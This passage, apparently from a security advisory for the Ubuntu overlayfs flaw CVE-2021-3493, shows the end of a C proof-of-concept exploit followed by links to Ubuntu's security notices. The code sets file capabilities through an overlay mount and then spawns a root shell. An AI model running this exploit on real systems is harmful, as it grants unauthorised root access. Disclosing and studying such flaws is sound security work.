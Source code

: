 ```
    xwritefile("/proc/self/gid_map", buf);

    sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
    if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
        err(1, "mount %s", DIR_MERGE);

    // all+ep
    char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

    xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
    if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
        err(1, "setxattr %s", BIN_MERGE);

    return 0;
}

int main(int argc, char *argv[])
{
    if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
        setuid(0);
        setgid(0);
        execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
        err(1, "execl /bin/bash");
    }

    pid_t child = fork();
    if (child == -1)
        err(1, "fork");

    if (child == 0) {
        _exit(exploit());
    } else {
        waitpid(child, NULL, 0);
    }

    execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
    err(1, "execl %s", BIN_UPPER);
}
```

### Vendor Response

We published security advisories for this issue today in

https://ubuntu.com/security/notices/USN-4915-1
https://ubuntu.com/security/notices/USN-4916-1
https://ubuntu.com/security/notices/USN-4917-1

as well as making the issue public in our CVE tracker:

https://ubuntu.com/security/CVE-2021-3493
